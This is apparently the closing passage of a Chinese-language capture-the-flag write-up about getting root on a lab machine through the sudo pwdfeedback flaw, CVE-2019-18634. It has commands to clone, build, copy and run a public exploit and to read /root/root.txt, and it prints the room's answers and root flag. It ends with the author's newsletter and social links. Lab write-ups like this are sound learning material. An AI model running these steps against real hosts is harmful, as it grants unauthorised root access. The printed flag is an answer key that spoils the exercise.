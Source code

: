 这个命令告诉您作为 sudo 的超级用户可以运行哪些命令。遗憾的是，当前用户不能以 root 用户身份运行任何命令。但是，您可能已经注意到，当您输入密码时，您会看到星号。这不是默认行为。最近发布的 CVE 影响了这种配置。该设置称为 pwdfeedback。

通过谷歌搜索，我们可以找到 CVE

*   该漏洞的 CVE 数是多少？

```
CVE-2019-18634
```

让我们找到并下载并利用这个 CVE，我在 Github 上找到了这个

```
 git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
 cd sudo-cve-2019-18634/
 make
 scp exploit {user}@{ip}
```

现在让我们运行利用程序

```
./exploit
```

我们是 ROOOOT yaaay

现在我们来找旗子

```
cat /root/root.txt
```

*   根旗是什么？

```
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```

# /etc/外卖

我了解了利用时间差来枚举现有用户名的方法

# 时事通讯

我将分享我的学习之旅，网络安全新闻，新简历和学习资源，以及更多，请随时[订阅](https://www.getrevue.co/profile/Noureldin_Ehab)😊请不要忘记喝水🌊

# ⭐I 喜欢与不同的人联系，所以如果你想打招呼，我会很高兴见到你！:)

[**LinkedIn**](https://www.linkedin.com/in/noureldin-ehab-a57940190/)[**Twitter**](https://twitter.com/Nouureldin_Ehab)

Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和充满力量的讨论会议。 [**查看更多详情并在此注册。**](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)